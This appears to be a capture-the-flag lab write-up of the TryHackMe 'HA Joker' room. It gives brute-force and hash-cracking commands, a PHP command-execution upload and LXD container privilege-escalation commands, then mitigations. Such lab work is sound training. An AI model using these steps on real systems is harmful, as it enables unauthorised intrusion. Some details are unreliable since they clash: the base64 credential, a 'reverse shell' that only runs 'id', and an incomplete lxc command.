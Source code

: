 # 🟩HA Joker - Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** August 18, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open ports, services, and potential vulnerabilities.
- **Commands Used:**  
  ```bash
  nmap -A <target_ip>
  ```
- **Findings:**
  - Open ports: HTTP (80, unauthenticated), HTTP (8080, Basic Authentication), SSH (22).
  - Apache version: 2.4.29.
  - Port 80 revealed files: `secret.txt` (conversation with user `joker`) and `phpinfo.php` (backend information).
  - Port 8080 required Basic Authentication.

---

## 2. Exploitation Process

### Step 1 – Web Enumeration (Port 80)
- Identified files on port 80: `secret.txt` and `phpinfo.php`.
- `secret.txt` contained a conversation referencing user `joker`.
- `phpinfo.php` exposed server configuration details.

### Step 2 – Brute-Forcing Basic Authentication (Port 8080)
- Used `hydra` to brute-force credentials for `joker` on port 8080:
  ```bash
  hydra -l joker -P /usr/share/wordlists/rockyou.txt <target_ip> -s 8080 http-get /
  ```
- **Result:** Obtained password `hannah`.

### Step 3 – CMS Access and Directory Enumeration
- Logged into port 8080 with `joker:hannah` (Basic Auth: `am9rZXI6MTIzNA==`).
- Identified CMS-based blog and enumerated directories:
  - Found `/administrator/` (admin panel).
  - Discovered `backup.zip` (encrypted backup file).

### Step 4 – Backup File Analysis
- Downloaded `backup.zip` and cracked encryption using password `hannah`.
- Extracted database file `joomladb.sql`.
- Searched for user data:
  ```bash
  grep -i "values" joomladb.sql | grep -i super
  ```
- Identified superuser `admin` with hashed password.

### Step 5 – Cracking Admin Password
- Saved hash to `hash.txt`:
  ```text
  $2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
  ```
- Cracked using `john`:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
- **Result:** Password `abcd1234`.

### Step 6 – Gaining Shell Access
- Logged into `/administrator/` with `admin:abcd1234`.
- Uploaded a PHP reverse shell:
  ```php
  <?php echo shell_exec("id"); ?>
  ```
- **Result:** Gained shell as `www-data` (member of `lxd` group).

### Step 7 – Privilege Escalation via LXD
- Confirmed `www-data` belonged to `lxd` group, allowing container creation.
- Researched LXD privilege escalation and identified available images.
- Created a privileged container, mounting the host’s root filesystem:
  ```bash
  lxc init priv-container -c security.privileged=true
  lxc config device add priv-container rootfs disk path=/mnt source=/
  lxc start priv-container
  lxc exec priv-container /bin/bash
  ```
- Navigated to `/mnt/root` inside the container to access the host’s `/root`.

### Step 8 – Flag Extraction
- Found `final.txt` in `/root`:
  ```text
  [Contents of final.txt not provided]
  ```

---

## 3. Proof of Concept (PoC)

- **Basic Authentication Brute Force:**  
  ```bash
  hydra -l joker -P /usr/share/wordlists/rockyou.txt <target_ip> -s 8080 http-get /
  ```
  Obtained `joker:hannah`.
- **Password Hash Cracking:**  
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
  Cracked `admin:abcd1234`.
- **Shell Upload:**  
  Uploaded PHP reverse shell to gain `www-data` access.
- **LXD Privilege Escalation:**  
  Mounted host root filesystem in a privileged LXD container to access `/root/final.txt`.

---

## 4. Privilege Escalation

- Exploited `www-data`’s `lxd` group membership to create a privileged container.
- Mounted the host’s root filesystem to gain root-level access.

---

## 5. Mitigation Recommendations

- **Web Server Hardening:**  
  - Remove sensitive files (`secret.txt`, `phpinfo.php`) from public access.
  - Restrict directory access (e.g., `/administrator/`) with authentication.
- **Authentication Security:**  
  - Enforce strong passwords for Basic Authentication and CMS users.
  - Use bcrypt with higher iteration counts for password hashing.
  - Implement multi-factor authentication.
- **Backup File Security:**  
  - Avoid storing backups in publicly accessible directories.
  - Use strong encryption for sensitive files.
- **LXD Hardening:**  
  - Remove untrusted users from the `lxd` group.
  - Disable privileged containers or restrict root filesystem mounting.
- **Patch Management:**  
  - Update Apache (2.4.29 is outdated) and CMS to the latest versions.
  - Monitor logs for unauthorized access attempts.

---

## 6. Lessons Learned

- **Weak Authentication:** Basic Authentication with weak passwords is easily brute-forced.
- **Exposed Files:** Publicly accessible files (`secret.txt`, `phpinfo.php`, `backup.zip`) leak critical information.
- **LXD Misconfiguration:** Membership in the `lxd` group can lead to full system compromise.
- **Backup Security:** Encrypted backups with reused passwords are vulnerable.
- **CMS Vulnerabilities:** Admin access enables shell uploads, escalating to system compromise.

---

## 7. Skills Practiced

- Network and service scanning (`nmap`)
- Web enumeration and file discovery
- Brute-forcing with `hydra`
- Password hash cracking with `john`
- CMS exploitation and reverse shell upload
- LXD-based privilege escalation
- Secure reporting and mitigation strategies
